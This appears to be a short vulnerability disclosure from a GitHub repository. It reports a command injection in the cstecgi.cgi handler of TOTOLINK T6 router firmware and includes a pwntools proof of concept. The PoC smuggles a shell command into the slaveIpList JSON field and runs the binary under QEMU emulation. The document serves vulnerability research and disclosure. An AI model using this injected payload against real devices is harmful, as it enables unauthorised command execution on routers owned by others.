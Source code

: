 # Command Injection

## TOTOLINK_T6

version: V4.1.5cu.709_B20210518

## Description:

There is a execute arbitrary command  in cstecgi.cgi

## Source:

you may download it from : http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=16&ids=36

## Analyse:



in sub_41EA88, v5 get from slaveIpList

![](https://s3.bmp.ovh/imgs/2022/08/23/c72165d05befefae.png)


finally pass to v10 and execute 


## POC

```
from pwn import *
import json

data = {
    "topicurl": "setting/setUpgradeFW",
    "FileName": "1.txt",
    "slaveIpList": " \";ls; \" "
}

data = json.dumps(data)
print(data)

argv = [
    "qemu-mipsel-static",
    "-g", "1234",
    "-L", "./root/",
    "-E", "CONTENT_LENGTH={}".format(len(data)),
    "-E", "REMOTE_ADDR=192.168.0.1",
    "./cstecgi.cgi"
]

a = process(argv=argv)
a.sendline(data.encode())

a.interactive()
```
